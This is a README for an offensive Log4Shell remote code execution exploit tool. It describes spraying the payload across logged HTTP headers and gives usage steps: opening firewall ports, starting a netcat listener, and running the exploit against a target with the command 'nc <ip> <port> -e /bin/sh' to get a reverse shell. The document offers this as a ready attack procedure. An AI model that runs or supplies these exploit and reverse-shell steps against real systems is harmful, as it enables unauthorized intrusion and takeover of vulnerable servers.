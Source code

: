 ## Log4Shell RCE Exploit 

[![asciicast](https://asciinema.org/a/BSuuPRF6HXTe8rgReFmFIzvtj.svg)](https://asciinema.org/a/BSuuPRF6HXTe8rgReFmFIzvtj)

fully independent exploit does not require any 3rd party binaries.
The exploit spraying the payload to all possible logged HTTP Headers such as `X-Forwarding , Server-IP , User-Agent` 
### Usage
open firewall ports
```ufw enable
ufw allow <netcat port>/tcp
ufw allow 1389/tcp
ufw allow <http_port>
ufw reload
```

reverse shell receiver
```
nc -lvp <port>
```

exploit execution
```shell
python main.py -i lhost -u http://target:targetport -c "nc <domain|ip> <port> -e /bin/sh" -p lhttp_port -l lldap_port
 ```


### Requirements 
- java-8-openjdk
- pip install -r requirements.txt
- python3.6+
